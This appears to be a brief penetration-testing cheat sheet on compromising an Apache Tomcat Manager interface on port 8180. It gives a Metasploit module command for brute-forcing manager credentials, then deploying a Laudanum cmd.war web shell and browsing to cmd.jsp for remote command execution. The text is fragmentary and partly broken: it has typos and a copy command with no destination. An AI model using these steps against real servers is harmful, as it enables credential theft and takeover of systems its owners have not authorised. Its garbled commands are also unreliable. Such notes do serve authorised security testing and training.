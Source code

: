 Runnong on TCP/8180

`Tomcat Manager` is section on web application tha allow administrator to views settings for internal tomcat configuration, system statistics quickly and our purposes.

Brute force credentials

```
use auxiliary/scanner/http/tomcat_mgr_login
set STOP_ON_SUCCESS
```

Malicious `.war` deployment with Laudanum allow us to control the server and remote command execution.

```
cp /usr/share/laudanum/jsp/cmd.war
```

Now check if the application `cmd` is available in the upper section of the Manager interface.
If the application deployed correctly visite the page

```
http[s]://domain.com:[PORT]/cmd/cmd.jsp
```